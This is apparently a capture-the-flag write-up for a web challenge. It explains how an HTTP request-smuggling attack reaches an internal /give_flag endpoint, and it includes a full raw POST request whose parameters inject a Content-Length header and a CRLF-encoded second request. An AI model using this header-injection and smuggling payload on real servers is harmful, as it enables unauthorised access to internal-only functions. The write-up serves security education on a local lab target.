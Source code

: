 Let's start by reading the provided code. We can immediately see an SQL injection vulnerability.
![](stuffy1.png)
However, we don't have control over the username. It's chosen from the provided `usernames.txt` file, which is a list of random usernames + 4 random characters.
![](stuffy2.png)

So, SQLi isn't the right path.

Among all the routes, we can notice the endpoint `/give_flag`.
![](stuffy3.png)
This function updates the value of "stuff" with the flag value for a user from the moment the request comes from the server itself.
We can try adding the Headers manually, but it won't work because it's the nginx proxy that modifies the headers.
So, we need to find a function that makes a request and redirect it to `/give_flag`.
Fortunately, `/set_stuff` makes a request to `/update_profile_internal`.

![](stuffy4.png)
Set_stuff first retrieves our username from the cookies and checks that this user exists.
Then it retrieves the stuff variable from the request and verifies that its length is less than 200.
The `special_type` and `special_val` variables are similarly retrieved and cleaned with the `security_filter` function.
`special_type` and `special_val` become Headers, and `stuff` becomes part of the body.

So, we have control over three variables: stuff, special_val, and special_type.
The most likely path is a request smuggling. Let's try.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Here, `special_type` and `special_val` form a header that will inform the first request (the end of aaaaaab) = Content-length: 80.
How do we find this number?

 ![](stuffy5.png)
We just need to find the size of this string.
![](stuffy6.png)
Then we create a second request. After refreshing the page, we'll have the flag in our stuff.
![](stuffy7.png)
That's it!
